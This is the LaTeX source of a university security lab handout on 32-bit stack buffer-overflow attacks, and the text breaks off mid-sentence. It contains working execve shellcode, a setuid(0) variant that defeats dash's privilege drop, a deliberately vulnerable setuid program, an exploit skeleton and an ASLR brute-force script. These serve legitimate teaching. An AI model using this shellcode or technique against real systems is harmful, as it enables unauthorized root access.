%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\newcommand{\commonfolder}{../../common-files}

\documentclass[11pt]{article}

\usepackage[most]{tcolorbox}
\usepackage{times}
\usepackage{epsf}
\usepackage{epsfig}
\usepackage{amsmath, alltt, amssymb, xspace}
\usepackage{wrapfig}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{verbatim}
\usepackage{fancyvrb}
\usepackage{adjustbox}
\usepackage{listings}
\usepackage{color}
\usepackage{subfigure}
\usepackage{cite}
\usepackage{sidecap}
\usepackage{pifont}
\usepackage{mdframed}
\usepackage{textcomp}
\usepackage{enumitem}


% Horizontal alignment
\topmargin      -0.50in  % distance to headers
\oddsidemargin  0.0in
\evensidemargin 0.0in
\textwidth      6.5in
\textheight     8.9in 

\newcommand{\todo}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{TODO: #1}}
\vspace{0.1in}
}


\newcommand{\unix}{{\tt Unix}\xspace}
\newcommand{\linux}{{\tt Linux}\xspace}
\newcommand{\minix}{{\tt Minix}\xspace}
\newcommand{\ubuntu}{{\tt Ubuntu}\xspace}
\newcommand{\setuid}{{\tt Set-UID}\xspace}
\newcommand{\openssl} {\texttt{openssl}}


\pagestyle{fancy}
\lhead{\bfseries SEED Labs}
\chead{}
\rhead{\small \thepage}
\lfoot{}
\cfoot{}
\rfoot{}


\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\definecolor{lightgray}{gray}{0.90}


\lstset{%
  frame=none,
  language=,
  backgroundcolor=\color{lightgray},
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
%  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  columns=fullflexible,
  keepspaces=true,
  escapeinside={(*@}{@*)}
}

\newcommand{\newnote}[1]{
\vspace{0.1in}
\noindent
\fbox{\parbox{1.0\textwidth}{\textbf{Note:} #1}}
%\vspace{0.1in}
}


%% Submission
\newcommand{\seedsubmission}{You need to submit a detailed lab report, with screenshots,
to describe what you have done and what you have observed.
You also need to provide explanation
to the observations that are interesting or surprising.
Please also list the important code snippets followed by
explanation. Simply attaching code without any explanation will not
receive credits.}

%% Book
\newcommand{\seedbook}{\textit{Computer \& Internet Security: A Hands-on Approach}, 2nd
Edition, by Wenliang Du. See details at \url{https://www.handsonsecurity.net}.}

%% Videos
\newcommand{\seedisvideo}{\textit{Internet Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.}

\newcommand{\seedcsvideo}{\textit{Computer Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.}

%% Lab Environment
\newcommand{\seedenvironment}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentA}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentB}{This lab has been tested on our pre-built
Ubuntu 20.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentAB}{This lab has been tested on our pre-built
Ubuntu 16.04 and 20.04 VMs, which can be downloaded from the SEED website. }

\newcommand{\nodependency}{Since we use containers to set up the lab environment, 
this lab does not depend too much on our SEED VM. You can do this lab
using other VMs or physical machines. }







\newcommand{\seedlabcopyright}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ {#1}\ \ by Wenliang Du.\\
      This work is licensed under a Creative Commons
      Attribution-NonCommercial-ShareAlike 4.0 International License.
      If you remix, transform, or build upon the material, 
      this copyright notice must be left intact, or reproduced in a way that is reasonable to
      the medium in which the work is being re-published.}}
\vspace{0.1in}
}






\newcommand{\bufFigs}{./Figs}

\lhead{\bfseries SEED Labs -- Buffer Overflow Vulnerability Lab (32-bit)}

\def \code#1 {\fbox{\scriptsize{\texttt{#1}}}}

\begin{document}

\begin{center}
{\LARGE Buffer Overflow Vulnerability Lab (32-bit)}
\end{center}

\seedlabcopyright{2006 - 2016}


% *******************************************
% SECTION
% ******************************************* 
\section{Overview}

The learning objective of this lab is for students to gain the first-hand
experience on buffer-overflow vulnerability by putting what they have learned
about the vulnerability from class into action. 
Buffer overflow is defined as the condition in which a program attempts to
write data beyond the boundaries of pre-allocated fixed length buffers. This
vulnerability can be used by a malicious user to alter the flow control of
the program, leading to the execution of malicious code. 


In this lab, students will be given a program with a buffer-overflow
vulnerability; their task is to develop a scheme to exploit 
the vulnerability and finally gain the root privilege.  In addition to the
attacks, students will be guided to walk through several protection
schemes that have been implemented in the operating system to counter against 
buffer-overflow attacks.  Students need to evaluate 
whether the schemes work or not and explain why. This lab
covers the following topics:

\begin{itemize}[noitemsep]
\item Buffer overflow vulnerability and attack
\item Stack layout in a function invocation
\item Address randomization, Non-executable stack, and  StackGuard
\item Shellcode. We have a separate lab on how to write shellcode 
from scratch.
\item The return-to-libc attack, which aims at 
defeating the non-executable stack countermeasure, is covered 
in a separate lab.
\end{itemize}


\noindent
\fbox{\parbox{\textwidth}{
\noindent
\textbf{Customization by instructor.} Instructors should customize
this lab by choosing a value for the \texttt{BUF\_SIZE} constant,
which is used during the compilation of the vulnerable program.
Different values can make the solutions
different. Please pick a value
between \texttt{0} and \texttt{400} for this lab.

\vspace{0.05in}
\begin{center}
\textbf{\large The \texttt{BUF\_SIZE} value for this lab is: \underline{\ \ \ \ \ \ \ \ \ \ \ }}
\end{center}
}}



\paragraph{Readings and videos.}
Detailed coverage of the buffer-overflow attack can be found in the following:

\begin{itemize}
\item Chapter 4 of the SEED Book, \seedbook
\item Section 4 of the SEED Lecture at Udemy, \seedcsvideo
\end{itemize}


\paragraph{Lab environment.} \seedenvironmentB



\newpage
% *******************************************
% SECTION
% ******************************************* 
\section{Environment Setup}

% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Turning Off Countermeasures}

You can execute the lab tasks using our pre-built \ubuntu virtual machines. 
\ubuntu and other Linux distributions have implemented several
security mechanisms to make the buffer-overflow attack difficult. 
To simplify our attacks, we need to disable them first. Later on, we will enable them one by
one, and see whether our attack can still be successful.


\paragraph{Address Space Randomization.}
\ubuntu and several other Linux-based systems uses address space
randomization to randomize the starting address of heap and
stack. This makes guessing the exact addresses difficult; guessing
addresses is one of the critical steps of buffer-overflow attacks.  In
this lab, we disable this feature using the following command:

\begin{lstlisting}
$ sudo sysctl -w kernel.randomize_va_space=0
\end{lstlisting}


\paragraph{The StackGuard Protection Scheme.}
The GCC compiler implements a security mechanism called
\textit{StackGuard} to prevent buffer overflows. In the presence of this
protection, buffer overflow attacks will not work. We can disable this
protection during the compilation using the 
\emph{-fno-stack-protector} option. For example, to compile a program
\texttt{example.c} with StackGuard disabled, we can do the following (the
\texttt{-m32} flag indicates we want to compile this program into
32-bit binary, instead of 64-bit):


\begin{lstlisting}
$ gcc -m32 -fno-stack-protector example.c
\end{lstlisting}


\paragraph{Non-Executable Stack.} \ubuntu used to allow executable stacks, but
this has now changed: the binary images of programs (and shared libraries) 
must declare whether they require executable stacks or not, i.e., they need to 
mark a field in the program header. Kernel or dynamic linker uses this marking
to decide whether to make the stack of this running program executable or 
non-executable. This marking is done automatically by the 
recent versions of {\tt gcc}, and by default, stacks are set to 
be non-executable.
To change that, use the following option when compiling programs:


\begin{lstlisting}
For executable stack:
$ gcc -m32 -z execstack  -o test test.c

For non-executable stack:
$ gcc -m32 -z noexecstack  -o test test.c
\end{lstlisting}



\paragraph{Configuring \texttt{/bin/sh}.} In the Ubuntu 20.04 OS,
the \texttt{/bin/sh} symbolic link points to
the \texttt{/bin/dash} shell. However, the \texttt{dash} program 
in these two VMs have an important difference. 
The \texttt{dash} shell in Ubuntu 16.04 has a countermeasure
that prevents itself from being executed in a \setuid process. 
Basically, if \texttt{dash} detects that it is 
executed in a \setuid process, it immediately 
changes the effective user ID to the process's real user ID, essentially
dropping the privilege. 


Since our victim program is a \setuid program, and our 
attack relies on running \texttt{/bin/sh}, the countermeasure
in \texttt{/bin/dash} makes our attack more difficult. Therefore,
we will link \texttt{/bin/sh} to another shell that does not 
have such a countermeasure (in later tasks, we will show that with
a little bit more effort, the countermeasure in \texttt{/bin/dash}
can be easily defeated). We have installed a shell program 
called \texttt{zsh} in our Ubuntu 20.04 VM. We use the following
commands to link \texttt{/bin/sh} to \texttt{zsh}:

\begin{lstlisting}
$ sudo ln -sf /bin/zsh /bin/sh
\end{lstlisting}


% *******************************************
% SECTION
% ******************************************* 
\section{Task 1: Running Shellcode}


Before starting the attack, let us get familiar with the shellcode. A shellcode is the code to
launch a shell. It has to be loaded into the memory so that we can force the
vulnerable program to jump to it. Consider the following program:


\begin{lstlisting}[language=C]
#include <stdio.h>

int main() {
   char *name[2];

   name[0] = "/bin/sh";
   name[1] = NULL;
   execve(name[0], name, NULL);
}
\end{lstlisting}
 

The shellcode that we use is just the assembly version of the above program. The following
program shows how to launch a shell by executing a shellcode stored in a buffer. Please
compile and run the following code, and see whether a shell is invoked. You can download
the program from the website. If you are interested in writing your own shellcode, 
we have a separate SEED lab for that purpose. 


\begin{lstlisting}[language=C]
/* call_shellcode.c: You can get it from the lab's website */
/* Launches a shell using shellcode */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char shellcode[] =
  "\x31\xc0"         /* Line 1:  xor  eax, eax      */
  "\x50"             /* Line 2:  push eax           */
  "\x68""//sh"       /* Line 3:  push "//sh"        */
  "\x68""/bin"       /* Line 4:  push "//sh"        */
  "\x89\xe3"         /* Line 5:  mov  ebx, esp      */
  "\x50"             /* Line 6:  push eax           */
  "\x53"             /* Line 7:  push ebx           */
  "\x89\xe1"         /* Line 8:  mov  ecx, esp      */
  "\x31\xd2"         /* Line 9:  xor  edx, edx      */
  "\x31\xc0"         /* Line 10: xor  eax, eax      */
  "\xb0\x0b"         /* Line 11: mov  al,  0x0b     */
  "\xcd\x80"         /* Line 12: int  0x80          */
;

int main(int argc, char **argv)
{
   char buf[sizeof(shellcode)];
   strcpy(buf, shellcode);
   ((void(*)( ))buf)( );
} 
\end{lstlisting}
 

Compile the code above using the following \texttt{gcc} command (with the 
\texttt{-m32} flag for 32-bit binary). Run the program
and describe your observations. 
Please do not forget to use the {\tt execstack} option, which allows 
code to be executed from the stack; without this option, the program will fail.


\begin{lstlisting}
$ gcc -m32 -z execstack -o call_shellcode call_shellcode.c
\end{lstlisting}

The shellcode above basically invokes the \texttt{execve()} system call 
to execute \texttt{/bin/sh}.
Detailed explanation of the shellcode can be found from the SEED book. 
In a separate SEED lab, the Shellcode lab, we guide students to write 
shellcode from scratch. Here we only give a very brief explanation. 
\begin{itemize}
\item The third instruction pushes \texttt{"//sh"}, rather than \texttt{"/sh"} into the 
stack. This is because we need a 32-bit number here, and \texttt{"/sh"} 
has only 24 bits. Fortunately, \texttt{"//"} is equivalent to \texttt{"/"}, so we can get 
away with a double slash symbol. 

\item Before calling the {\tt execve()}
system call, we need to store {\tt name[0]} (the address of the string), 
{\tt name} (the address of the array), and {\tt NULL} to
the {\tt ebx}, {\tt ecx}, and {\tt edx} registers, respectively. 
Line 5 stores {\tt name[0]} to {\tt ebx}; 
Line 8 stores {\tt name} to    {\tt ecx}; 
Line 9 sets {\tt edx} to zero. 

\item The system call {\tt execve()} is called when we set {\tt al} to
11, and execute {\tt "int 0x80"}.
\end{itemize}


% *******************************************
% SECTION
% ******************************************* 
\section{Task 2: Launching Buffer-Overflow Attack}


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{The Vulnerable Program}

You will be provided with the following program, which has 
a buffer-overflow vulnerability in Line~\ding{192}. Your job
is to exploit this vulnerability and gain the root privilege. 

\begin{lstlisting}[language=C]
/* Vunlerable program: stack.c */
/* You can get this program from the lab's website */

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

/* Changing this size will change the layout of the stack.
 * Instructors can change this value each year, so students
 * won't be able to use the solutions from the past.
 * Suggested value: between 0 and 400  */
#ifndef BUF_SIZE
#define BUF_SIZE 24
#endif

int bof(char *str)
{
    char buffer[BUF_SIZE];

    /* The following statement has a buffer overflow problem */ 
    strcpy(buffer, str);          (*@\ding{192}@*)

    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;

     /* Change the size of the dummy array to randomize the parameters
       for this lab. Need to use the array at least once */
    char dummy[BUF_SIZE];  memset(dummy, 0, BUF_SIZE); 

    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);
    printf("Returned Properly\n");
    return 1;
}
\end{lstlisting}

The above program has a buffer overflow vulnerability. It first 
reads an input from a file called \texttt{badfile}, and then passes this
input to another buffer in the function {\tt bof()}. The 
original input can have a maximum length of \texttt{517} bytes, but the buffer
in {\tt bof()} is only \texttt{BUF\_SIZE} bytes long, which is less than
\texttt{517}. 
Because {\tt strcpy()} does not check
boundaries, buffer overflow will occur.
Since this program is a root-owned \setuid program, if a normal user can exploit
this buffer overflow vulnerability, the user might be 
able to get a root shell.
It should be noted that 
the program gets its input from a file called \texttt{badfile}. This file
is under users' control. Now, our objective is to 
create the contents for \texttt{badfile}, such that when the vulnerable program
copies the contents into its buffer, a root shell can be spawned.


\paragraph{Compilation.}
To compile the above vulnerable program, do not forget to 
turn off the StackGuard and the non-executable stack protections 
using the \texttt{-fno-stack-protector} and \texttt{"-z execstack"} options.
After the compilation, we need to make the program a
root-owned \setuid program. We can achieve this by first change the ownership of the program to
\texttt{root} (Line \ding{192}), and then change the permission to \texttt{4755} to enable the
\setuid bit (Line \ding{193}). It should be noted that changing ownership must be done before
turning on the \setuid bit, because ownership change will cause the \setuid bit to be turned
off.


\begin{lstlisting}
// Note: N should be replaced by the value set by the instructor
$ gcc -DBUF_SIZE=N -m32 -o stack -z execstack -fno-stack-protector stack.c
$ sudo chown root stack          (*@\ding{192}@*)
$ sudo chmod 4755 stack          (*@\ding{193}@*)
\end{lstlisting}
 

\paragraph{For instructors.}
To prevent students from using the solutions from the past (or from those
posted on the Internet), instructors can change the
value for \texttt{BUF\_SIZE} by requiring students to compile the
server code using a different \texttt{BUF\_SIZE} value.
Without the \texttt{-DBUF\_SIZE}
option, \texttt{BUF\_SIZE} is set to the default value 24 (defined
in the program).
When this value changes, the layout of the stack
will change, and the solution will be different.


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 2.1: Investigation} 

To exploit the buffer-overflow vulnerability in the target program,
the most important thing to know is the distance between the 
buffer's starting position and the place where the return-address
is stored. We will use a debugging method to find it out.
Since we have the source code of the target program, we
can compile it with the debugging flag turned on. That will make it more
convenient to debug. Here is the \texttt{gcc} command.

\begin{lstlisting}
$ gcc -m32 -DBUF_SIZE=N -z execstack -fno-stack-protector  \
      -g -o stack_dbg stack.c
\end{lstlisting}

In addition to disabling two countermeasures as before, the above compilation
uses the \texttt{-g} flag to compile the program, so debugging information
is added to the binary.  The compiled program (\texttt{stack\textunderscore dbg}) is
then debugged using \texttt{gdb}. We need to create a file called
\texttt{badfile} before running the program. 

\begin{lstlisting}
$ touch badfile     (*@\reflectbox{\ding{217}} \textbf{Create an empty badfile}@*)
$ gdb stack_dbg
gdb-peda$ b bof     (*@\reflectbox{\ding{217}} \textbf{Set a break point at function bof()}@*)
Breakpoint 1 at 0x124d: file stack.c, line 18.
gdb-peda$ run       (*@\reflectbox{\ding{217}} \textbf{Start executing the program}@*)
...
Breakpoint 1, bof (str=0xffffcf57 ...) at stack.c:18
18  {
gdb-peda$ next      (*@\reflectbox{\ding{217}} \textbf{See the note below}@*)
...
22	    strcpy(buffer, str);
gdb-peda$ p $ebp    (*@\reflectbox{\ding{217}} \textbf{Get the ebp value}@*)
$1 = (void *) 0xffffdfd8   
gdb-peda$ p &buffer (*@\reflectbox{\ding{217}} \textbf{Get the buffer's address}@*)
$2 = (char (*)[100]) 0xffffdfac
gdb-peda$ quit      (*@\reflectbox{\ding{217}} \textbf{exit}@*)
\end{lstlisting}

\paragraph{Note.} When the GDB stops inside the \texttt{bof()} function, it 
stops before the \texttt{ebp} register is modified
to point the current stack frame, so if we print out the value of 
\texttt{ebp} here, we will get the caller's \texttt{ebp} value. We need to use 
\texttt{next} to execute a few instructions and stop 
after the \texttt{ebp} register is modified to point to the stack
frame of the \texttt{bof()} function. 
The SEED book is based on Ubuntu 16.04, and the GDB's behavior is slightly
different, so the book does not have the \texttt{next} step. 

% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 2.2: Write Exploit Code and Launch Attack} 

To exploit the buffer-overflow vulnerability in the target program,
we need to prepare a payload, and save it inside \texttt{badfile}. 
We will use programs to do that.
We provide two code skeletons for students, a Python program and a C program.
Students can choose either of them. 
The shellcode is already provided in the code. 
The code is incomplete, and students need to replace some of the essential 
values in the code. 

\paragraph{Python Version.} This Python skeleton code 
is called \texttt{exploit.py}, which
can be downloaded from the lab's website.

\begin{lstlisting}[language=python]
#!/usr/bin/python3
import sys

shellcode= (
  "\x31\xc0"    # xor   eax, eax
  "\x50"        # push  eax
  "\x68""//sh"  # push  0x68732f2f
  "\x68""/bin"  # push  0x6e69622f
  "\x89\xe3"    # mov   ebx, esp
  "\x50"        # push  eax
  "\x53"        # push  ebx
  "\x89\xe1"    # mov   ecx, esp
  "\x31\xd2"    # xor   edx, edx 
  "\x31\xc0"    # xor   eax, eax 
  "\xb0\x0b"    # mov   al, 0x0b
  "\xcd\x80"    # int   0x80
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

# Put the shellcode at the end
start = 517 - len(shellcode)
content[start:] = shellcode

#########################################################################
ret    = 0xAABBCCDD   # replace 0xAABBCCDD with the correct value
offset = 0            # replace 0 with the correct value

# Fill the return address field with the address of the shellcode
content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')
#########################################################################

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
\end{lstlisting}

After you finish the above program, run it. This will generate
the contents for \texttt{badfile}. Then run the vulnerable 
program {\tt stack}. If your exploit is implemented correctly, you should 
be able to get a root shell:  

\begin{lstlisting}
$./exploit.py     // create the badfile
$./stack          // launch the attack by running the vulnerable program
# <---- Bingo! You've got a root shell! 
\end{lstlisting}
 

\paragraph{C version.}
The C version of the exploit code is called 
\texttt{"exploit.c"}. Its code is to construct contents 
for \texttt{badfile}. In this code, the shellcode is given to you. 
You need to develop the rest. 


\begin{lstlisting}[language=C]
/* exploit.c  */
/* A program that creates a file containing code for launching shell */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

char shellcode[] =
  ... omitted: same as that in call_shellcode.c ...
;							        

void main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;

    /* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);

    /* You need to fill the buffer with appropriate contents here */ 
    /* ... Put your code here ...  */

    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
\end{lstlisting}
 
After you finish the above program, compile and run it. This will generate
the contents for \texttt{badfile}. Then run the vulnerable 
program {\tt stack}. If your exploit is implemented correctly, you should 
be able to get a root shell:  

\begin{lstlisting}
$ gcc -o exploit exploit.c
$./exploit        // create the badfile
$./stack          // launch the attack by running the vulnerable program
# <---- Bingo! You've got a root shell! 
\end{lstlisting}


% *******************************************
% SECTION
% ******************************************* 
\section{Tasks 3 and 4: Defeating Countermeasures}

% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 3: Defeating \texttt{dash}'s Countermeasure}

As we have explained before, the \texttt{dash} shell in Ubuntu 16.04 drops privileges 
when it detects that the effective UID does not equal to the real UID.
This can be observed from \texttt{dash} program's changelog.
We can see an additional check in Line \ding{192}, which
compares real and effective user/group IDs.



\begin{lstlisting}
// https://launchpadlibrarian.net/240241543/dash_0.5.8-2.1ubuntu2.diff.gz
// main() function in main.c has following changes:

++	uid = getuid();
++	gid = getgid();

++	/*
++	 * To limit bogus system(3) or popen(3) calls in setuid binaries, 
++ 	 * require -p flag to work in this situation.
++	 */
++	if (!pflag && (uid != geteuid() || gid != getegid())) {  (*@\ding{192}@*)
++         setuid(uid);
++         setgid(gid);
++         /* PS1 might need to be changed accordingly. */
++         choose_ps1();
++	}
\end{lstlisting}



The countermeasure implemented in \texttt{dash} can be defeated. One approach
is not to invoke \texttt{/bin/sh} in our shellcode; instead, we can
invoke another shell program. This approach requires another shell program, such as 
\texttt{zsh} to be present in the system. Another approach is to 
change the real user ID of the victim process to zero before 
invoking the \texttt{dash} program.   
We can achieve this by invoking \texttt{setuid(0)} before executing 
\texttt{execve()} in the shellcode. In this task, we will
use this approach. We will first change the \texttt{/bin/sh} symbolic link, so 
it points back to 
\texttt{/bin/dash}:


\begin{lstlisting}
$ sudo ln -sf /bin/dash /bin/sh
\end{lstlisting}


To see how the countermeasure in \texttt{dash} works and how to 
defeat it using the system call \texttt{setuid(0)}, we write the following C program. 
We first comment out Line~\ding{192} and run the program as a \setuid program (the owner should
be root); please describe your observations. We then uncomment Line~\ding{192} and 
run the program again; please describe your observations.


\begin{lstlisting}[language=C]
// dash_shell_test.c

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main()
{
     char *argv[2];
     argv[0] = "/bin/sh";
     argv[1] = NULL;

     // setuid(0);                    (*@\ding{192}@*)
     execve("/bin/sh", argv, NULL);   

     return 0;
}
\end{lstlisting}


The above program can be compiled and set up using the following 
commands (we need to make it root-owned \setuid program):

\begin{lstlisting}
$ gcc -m32 dash_shell_test.c -o dash_shell_test
$ sudo chown root dash_shell_test
$ sudo chmod 4755 dash_shell_test
\end{lstlisting}


From the above experiment, we will see that 
\texttt{seuid(0)} makes a difference.  Let us add the assembly 
code for invoking this system call at the beginning of our shellcode, before 
we invoke \texttt{execve()}. 

\begin{lstlisting}[language=python]
shellcode= (
  "\x31\xc0"    # xor eax, eax  (eax = 0)
  "\x31\xdb"    # xor ebx, ebx  (ebx = 0)
  "\xb0\xd5"    # mov al,  0xd5 (0xd5 is setuid()'s system call number)
  "\xcd\x80"    # int 0x80      (invoke setuid(0))
  # ---- The code below is the same as the one in Task 2 ---
  ... omitted ...
).encode('latin-1')
\end{lstlisting}


Using this updated shellcode, we can attempt the attack on the vulnerable
program when \texttt{/bin/sh} is linked to \texttt{/bin/dash}. Using the above shellcode 
to modify \texttt{exploit.py} or \texttt{exploit.c}; try the attack from Task 2 again and see
if you can get a root shell. 
Please describe and explain your results.


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 4: Defeating Address Randomization}

On 32-bit Linux machines, stacks only have 19 bits of entropy, which means the stack base
address can have $2^{19} = 524,288$ possibilities.  This number is not that high and can be
exhausted easily with the brute-force approach. In this task,
we use such an approach to defeat the address randomization countermeasure 
on our 32-bit VM. 
First, we turn on the Ubuntu's address randomization using the 
following command.  We run the same attack
developed in Task 2. Please describe and explain your observation.

\begin{lstlisting}
$ sudo /sbin/sysctl -w kernel.randomize_va_space=2
\end{lstlisting}


We then use the brute-force approach to attack the vulnerable program repeatedly, hoping that 
the address we put in the \texttt{badfile} can eventually be correct. You can 
use the following shell script to run the vulnerable program in an infinite loop. If your
attack succeeds, the script will stop; otherwise, it will keep running. Please be patient,
as this may take a while. Let it run overnight if needed. Please describe your observation.


\begin{lstlisting}[language=bash]
#!/bin/bash

SECONDS=0
value=0

while [ 1 ]
  do
  value=$(( $value + 1 ))
  duration=$SECONDS
  min=$(($duration / 60))
  sec=$(($duration % 60))
  echo "$min minutes and $sec seconds elapsed."
  echo "The program has been running $value times so far."
  ./stack
done
\end{lstlisting}



% *******************************************
% SECTION
% ******************************************* 
\section{Tasks 5 and 6: Experimenting with Other Countermeasures}

% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 5: Turn on the StackGuard Protection}

Before working on this task, remember to turn off the address
randomization first, or you will not know which protection helps 
achieve the protection.

In our previous tasks, we disabled the StackGuard protection mechanism in GCC
when compiling the programs. In this task, you may consider repeating
Task 2 
in the presence of StackGuard. To do that, you should compile
the program without the \texttt{-fno-stack-protector} option. For this
task, you will recompile the vulnerable program, \texttt{stack.c}, 
to use GCC StackGuard, execute task 1 again, and report your observations. You may
report any error messages you observe.

In GCC version 4.3.3 and above, StackGuard is enabled by
default. Therefore, you have to disable StackGuard using the switch
mentioned before. In earlier versions, it was disabled by default. If
you use a older GCC version, you may not have to disable StackGuard. 



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 6: Turn on the Non-executable Stack Protection}

Before working on this task, remember to turn off the address
randomization first, or you will not know which protection helps 
achieve the protection.

In our previous tasks, we intentionally make stacks executable.
In this task, we recompile our vulnerable program 
using the {\tt noexecstack} option, and repeat the attack in
Task 2. Can you get a shell? If not, what is the problem? How does
this protection scheme make your attacks difficult. 
You should describe your observation and explanation
in your lab report. You can use the following instructions to turn
on the non-executable stack protection.

\begin{lstlisting}
$ gcc -m32 -o stack -fno-stack-protector -z noexecstack stack.c
\end{lstlisting}


It should be noted that non-executable stack only makes it impossible to run shellcode 
on the stack, but it does not prevent buffer-overflow attacks, 
because there are other ways to run malicious code after exploiting 
a buffer-overflow vulnerability. The {\em return-to-libc} attack
is an example. We have designed a separate lab for that 
attack. If you are interested, please see our 
Return-to-Libc Attack Lab for details.


If you are using our Ubuntu 12.04/16.04 VM, whether the non-executable stack
protection works or not depends on the CPU and the setting of your virtual
machine, because this
protection depends on the hardware feature that is provided by CPU. If you 
find that the non-executable stack protection does not work, check our
document (``Notes on Non-Executable Stack'') that is linked to the lab's web page, and see whether the
instruction in the document can help solve your problem. If not, then you
may need to figure out the problem yourself.




% *******************************************
% SECTION
% ******************************************* 
\section{Guidelines}


Chapter 4 of the SEED book titled \textit{Computer \& Internet 
Security: A Hands-on Approach, 2nd edition}
provides detailed explanation on how buffer-overflow attacks work and how to 
launch such an attack. We briefly summarize some of the important guidelines
in this section.


\paragraph{Stack Layout.}
We can load the shellcode into \texttt{badfile}, but it will not be executed because our
instruction pointer will not be pointing to it. One thing we can do is to change
the return address to point to the shellcode. But we have two problems:
(1) we do not know where the return address is stored, and
(2) we do not know where the shellcode is stored.
To answer these questions, we need to understand the stack layout when the 
execution enters a function. Figure~\ref{fig:buffer_overflow_stack_example}
gives an example of stack layout during a function invocation.


\begin{figure}[htb]
	\centering
	
\includegraphics[width=0.95\textwidth]{\bufFigs/bof_stack_example.pdf}
	\caption{An example of stack layout during a function invocation}
	\label{fig:buffer_overflow_stack_example}
\end{figure}


\paragraph{Finding the address of the memory that stores the return address.}
From the figure, we know, if we can find out the address of {\tt buffer[]} array, 
we can calculate where the return address is stored. 
Since the vulnerable program is a \setuid program, you can make a copy of this program,
and run it with your own privilege; this way you can debug the program (note that
you cannot debug a \setuid program). In the debugger, you can figure out
the address of {\tt buffer[]}, and thus calculate the starting point of
the malicious code. You can even modify the copied program, and ask the 
program to directly print out the address of {\tt buffer[]}.
The address of {\tt buffer[]} may be slightly
different when you run the \setuid copy, instead of your copy, but
you should be quite close. 

If the target program is running remotely, and you may not be able to
rely on the debugger to find out the address. However, you can always
{\em guess}. The following facts make guessing a quite feasible approach:
      \begin{itemize}
      \item Stack usually starts at the same address.
      \item Stack is usually not very deep: most programs do not push more than
            a few hundred or a few thousand bytes into the stack at any one time.
      \item Therefore the range of addresses that we need to guess is actually
            quite small.
      \end{itemize}

\paragraph{Finding the starting point of the malicious code.}
If you can accurately calculate the address of {\tt buffer[]}, you should be 
able to accurately calculate the starting point of the malicious code.
Even if you cannot accurately calculate the address (for example, for remote programs),
you can still guess. To improve the chance of success, we can add a
number of NOPs to the beginning of the malicious code; therefore, if we 
can jump to any of these NOPs, we can eventually get to the 
